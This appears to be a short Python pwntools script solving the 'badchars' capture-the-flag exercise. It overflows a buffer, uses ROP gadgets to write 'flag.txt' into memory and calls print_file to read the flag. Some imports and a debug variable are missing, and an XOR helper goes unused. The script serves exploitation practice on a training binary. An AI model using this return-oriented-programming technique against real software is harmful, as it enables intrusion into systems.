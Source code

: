 ``` python
pop_r12345=0x40069c
# mov qword ptr [r13], r12 ; ret
write_r13r12=0x400634
# pop rdi ; ret
pop_rdi = 0x4006a3

def w_write(addr, data):
    r=b""
    if type(data) == str:
        data=data.encode()
    for i in range(0,len(data),8):
        r += p64(pop_r12345)
        r += data[i:i+8]
        r += p64(addr+i)
        r += p64(0)
        r += p64(0)
        r += p64(write_r13r12)
    return r


def xorchain(chain, bytes, mask):
    r=b""
    for i,c in enumerate(chain):
        if bytes&0x80:
            c=c^mask
        r+=chr(c).encode()
        bytes= bytes<<1
    return r

# Offset avant ecrasement de l'adresse de retour
offset=0x28

# Set up pwntools for the correct architecture
elf =  ELF('badchars')
context.binary=elf

print_file=elf.plt['print_file']

bss = 0x00601038

PL =b"A"*offset
PL+=w_write(bss,"flag.txt")
PL+=p64(pop_rdi)
PL+=p64(bss)
PL+=p64(print_file)

io = process([elf.path])
if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)

# io.recvuntil(b"> ")
io.sendline(PL)
io.interactive()
```